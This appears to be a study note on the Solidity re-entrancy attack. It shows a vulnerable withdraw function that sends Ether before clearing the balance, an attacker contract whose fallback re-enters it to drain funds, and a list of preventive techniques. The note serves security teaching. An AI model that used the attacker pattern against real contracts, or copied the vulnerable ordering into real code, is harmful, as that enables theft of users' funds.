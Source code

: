 ## Re-entrancy Attack 

[Reference](https://solidity-by-example.org/hacks/re-entrancy/)

Reentrancy occurs when contract `A` calls contract `B`, but contract `B` is able to "re-enter" contract A prior to the execution completing. Observe the attack in the following:

Contract `A` 

```solidity
function deposit() public payable { 
	balances[msg.sender] += msg.value; 
} 

function withdraw() public { 
	uint bal = balances[msg.sender]; 
	require(bal > 0); 
	(bool sent, ) = msg.sender.call{value: bal}(""); 
	require(sent, "Failed to send Ether"); 
	balances[msg.sender] = 0; 
}
```

Contract `B` (malicious contract)

```solidity
fallback() external payable { 
	if (address(etherStore).balance >= 1 ether) { 
	    etherStore.withdraw(); 
	} 
}

function attack() external payable { 
	require(msg.value >= 1 ether); 
	etherStore.deposit{value: 1 ether}(); 
	etherStore.withdraw(); 
}
```

The reetrancy attack occurs when:
- Contract `B` calls contract A's `withdraw` function 
* Contract `A` forwards the balance through contract `B` `fallback()` function using `call()` before reducing the balance. 
* Contract `B`  fallback then calls Contract `A` withdraw again. Creating a loop enabling contract B to withdraw all of Contract `A`'s ether balance

For this reason it is advisable to avoid low level calls to contracts due to this exploitable behavior.

Preventative techniques
- Ensure state changes (like reducing balance) happen before calling external contract 
- Use function modifiers
- Strongly consider techniques when making calls to external contracts

Refer to [[Repository Breakdowns]] for repository deep dives and just reading good codes.
Refer to [[Pull Request Breakdowns]] for pull requests.
